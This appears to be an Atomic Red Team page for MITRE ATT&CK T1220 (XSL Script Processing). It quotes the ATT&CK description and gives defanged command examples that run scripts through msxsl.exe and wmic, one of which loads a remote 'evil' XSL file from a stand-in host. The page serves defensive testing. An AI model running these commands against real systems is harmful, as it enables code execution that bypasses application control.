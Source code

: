 # T1220 - XSL Script Processing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1220)
<blockquote>

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>

</blockquote>

## Atomic Tests

- [Atomic Test #1 - MSXSL Bypass using local files](#atomic-test-1---msxsl-bypass-using-local-files)

- [Atomic Test #2 - MSXSL Bypass using remote files](#atomic-test-2---msxsl-bypass-using-remote-files)

- [Atomic Test #3 - WMIC bypass using local XSL file](#atomic-test-3---wmic-bypass-using-local-xsl-file)
